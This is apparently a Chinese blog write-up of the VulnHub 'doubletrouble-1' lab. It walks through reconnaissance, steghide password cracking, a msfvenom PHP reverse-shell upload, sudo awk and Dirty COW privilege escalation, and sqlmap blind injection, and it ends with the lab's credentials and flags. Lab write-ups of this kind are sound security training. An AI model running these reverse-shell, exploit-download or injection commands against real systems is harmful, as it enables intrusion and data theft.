

『vulnhub系列』doubletrouble-1
『vulnhub系列』doubletrouble-1
下载地址
1 | https://www.vulnhub.com/entry/doubletrouble-1,743/ |
信息搜集
使用命令，获得存活靶机IP为138，开启端口22和80
1 | nmap 192.168.0.* #因为当前NAT模式，攻击机和靶机在一个内网环境中 |

访问80的web服务，是一个登录页面

又是qdPm，之前做过一个qdpm的题目，于是我们就知道了qdpm存在密码泄露漏洞。我们来看一下
1 | searchsploit qdpm |

我们发现密码泄露漏洞是50176.txt，查看，发现我们可以去http://<website>/core/config/databases.yml 这个目录下，获得数据库的用户名密码
1 | searchsploit -m 50176.txt #将50176.txt存到当前目录 |

访问后，得到用户名：密码— otis :rush

但我们发现，靶机的3306端口并没有开，继续信息搜集
使用dirsearch爆破目录，得到如下目录，发现secret目录
1 | dirsearch -u "http://192.168.0.138/" |

访问/secret目录里面都有一个doubletrouble.jpg

打开图片，发现图片里有我们刚刚获取的用户名和密码Otis：Rush

但目前这些信息并没有什么用，因此想到了以前做CTF时候的隐写术，丢到WinHex里并没有发现什么东西，我们搜索jpg相关的隐写术，发现有一种steghide隐写，可以在linux中使用。
Steghide 是一个可用于隐写术的工具。它允许您在音频和图像文件中嵌入秘密信息，包括 JPEG、BMP、WAV 和 AU 文件。 Steghide 允许：
- 嵌入数据的加密。
- 嵌入数据的压缩。
- 嵌入校验和以验证提取的数据的完整性。
我们安装一下，并试一下，发现需要密码
1 | apt-get install steghide #安装 |

然后StegHide是隐写工具，现在我们是要破解它隐写后的密码，这里用到了另一个工具：Stegseek
Stegseek是迄今为止全世界最快的Steghide破解qi，该工具每秒能够处理数百万的密码。虽然Stegseek是一款轻量级工具，但丝毫不影响其功能性的强大。该工具作为原始Steghide项目的一个分支而构建，它的速度比其他破解qi快上千倍。在该工具的帮助下，广大研究人员可以轻松从使用了Steghide隐写&加密的文件中提取出隐藏的数据。
除此之外，Stegseek还可以用来提取Steghide的元数据，我们可以利用这些信息来判断一个文件中是否包含了Steghide数据。
值得一提的是，仅需两秒钟，该工具就可以跑完rockyou.txt字典。而众所周知，rockyou.txt是一个包含了超过1400万个密码的强大字典文件。
1 | apt install stegseek |
然后我们使用/usr/share/wordlist/rockyou.txt.gz 解压后的rockyou.txt来进行暴力破解
得到密码92camaro
1 | stegseek doubletrouble.jpg rockyou.txt |

再次查看图片信息，输入密码，发现有一个creds.txt
1 | steghide info doubletrouble.jpg |

分离文件，输入密码，得到creds.txt 查看一下，得到邮箱：密码otisrush@localhost.com:otis666
1 | steghide extract -sf doubletrouble.jpg |

登录成功

漏洞利用
我们发现可以上传文件

我们使用msf生成一个php反弹木马，上传
1 | msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.0.130 lport=4444 -o re_shell.php |

上传成功

我们使用msf进行监听,设置options与生成的木马一一对应
1 | msfconsole |
然后我们刚刚扫描的时候，发现有一个uploads目录，我们访问一下其下的目录attachments
发现我们刚上传的文件已经上传成功了

我们在攻击机输入run开启监听

访问php文件，反弹成功

现在的权限是网站权限

权限提升：
使用py获取交互式shell
1 | python3 -c "import pty;pty.spawn('/bin/bash')" |

使用命令查看带有SUID权限的文件，发现并没有什么东西
1 | find / -perm -u=s -type f 2>/dev/null |

使用命令查看可以使用root权限执行的命令，发现awk命令可以以root权限执行
1 | sudo -l |

因此我们可以借助awk进行sudo提权
1 | sudo awk 'BEGIN{system("/bin/bash")}' |
关于sudo提权可以看我之前的文章sudo滥用提权 | Don_Joshua’s Blog (jo4hua.github.io)
提权成功

进入到root目录……发现……还有一个靶机，将其移动到/var/www/html目录下

输入网址+镜像名，下载，开机
1 | http://192.168.0.138/doubletrouble.ova |
第二层靶机
信息搜集：
依旧使用nmap找到存活主机

访问80端口web服务，是一个登录页面

使用之前的otis用户名和密码，登陆失败，没有回显，可能是sql注入？使用sqlmap尝试一下吧
漏洞利用：
首先查看源代码，用的是post方式传uname,psw

使用sqlmap，存在时间盲注
1 | sqlmap -u http://192.168.0.139/index.php --data="uname=admin&psw=123" |

使用命令，得到数据库doubletrouble 另一个是默认表
1 | sqlmap -u http://192.168.0.139/index.php --data="uname=admin&psw=123" --dbs --batch |

继续爆破表
1 | sqlmap -u http://192.168.0.139/index.php --data="uname=admin&psw=123" -D doubletrouble --tables --batch |

爆破字段
1 | sqlmap -u http://192.168.0.139/index.php --data="uname=admin&psw=123" -D doubletrouble -T users --columns --batch |

爆破内容，得到用户名密码montreux | GfsZxc1 clapton | ZubZub99
1 | sqlmap -u http://192.168.0.139/index.php --data="uname=admin&psw=123" -D doubletrouble -T users -C username,password --dump --batch |

然后我们登录，发现登录不上，那现在只剩一个地方了
没错就是ssh了，使用第二个用户和密码登陆成功，获得普通用户权限
1 | ssh clapton@192.168.0.139 |

权限提升：
老套路，先查看具有SUID权限的文件,发现一个exim4有些可疑
1 | find / -perm -u=s -type f 2>/dev/null |

搜一下，发现可以进行SUID提权，使用命令查看一下版本
1 | /usr/sbin/exim4 --version |

寻找对应版本漏洞，下载
1 | searchsploit Exim 4.80 |

开启apache服务，将exp移动到/var/www/html目录下
1 | service apache2 start |

使用靶机下载exp
1 | wget http://192.168.0.130/35951.py |

发现这几个exp都不好用
接下来查看系统内核信息
1 | uname -a |

直接上脏牛提权吧，发现我们的内核版本在可利用范围内
1 | searchspolit dirty |

重复上述过程，我们将40847.cpp上传到靶机上，赋予执行权限
1 | wget http://192.168.0.130/40847.cpp #靶机下载exp |

运行1，得到root密码
1 | ./1 运行 |

使用su切换为root用户，输入密码，获取root权限

成果：
获取普通权限的时候，发现user.txt
1 | 6CEA7A737C7C651F6DA7669109B5FB52 |
在root目录下cat root.txt可得
1 | 1B8EEA89EA92CECB931E3CC25AA8DE21 |